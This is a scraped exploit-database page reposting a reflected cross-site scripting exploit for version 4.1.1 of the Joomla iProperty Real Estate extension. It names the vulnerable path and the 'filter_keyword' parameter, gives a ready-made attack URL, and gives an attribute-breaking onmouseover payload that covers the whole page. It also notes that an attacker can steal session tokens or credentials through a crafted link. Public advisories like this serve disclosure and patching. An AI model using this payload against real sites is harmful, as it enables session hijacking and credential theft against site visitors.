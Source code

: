 ```yaml
---
title: Joomla iProperty Real Estate 4.1.1 - Reflected XSS exploit
url: https://sploitus.com/exploit?id=EDB-ID:51640&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-01
fetch_date: 2025-10-06T16:57:39.642069
---
```


# Joomla iProperty Real Estate 4.1.1 - Reflected XSS exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Joomla iProperty Real Estate 4.1.1 - Reflected XSS

2023-07-31 | CVSS 7.0

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51640
# Exploit Title: Joomla iProperty Real Estate 4.1.1 - Reflected XSS
# Exploit Author: CraCkEr
# Date: 29/07/2023
# Vendor: The Thinkery LLC
# Vendor Homepage: http://thethinkery.net
# Software Link: https://extensions.joomla.org/extension/vertical-markets/real-estate/iproperty/
# Demo: https://iproperty.thethinkery.net/
# Version: 4.1.1
# Tested on: Windows 10 Pro
# Impact: Manipulate the content of the site

## Greetings

The_PitBull, Raz0r, iNs, SadsouL, His0k4, Hussin X, Mr. SQL , MoizSid09, indoushka
CryptoJob (Twitter) twitter.com/0x0CryptoJob

## Description

The attacker can send to victim a link containing a malicious URL in an email or instant message
can perform a wide variety of actions, such as stealing the victim's session token or login credentials

Path: /iproperty/property-views/all-properties-with-map

GET parameter 'filter_keyword' is vulnerable to XSS

https://website/iproperty/property-views/all-properties-with-map?filter_keyword=[XSS]&option=com_iproperty&view=allproperties&ipquicksearch=1

XSS Payload: pihil"onmouseover="alert(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"f63m4

[-] Done
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)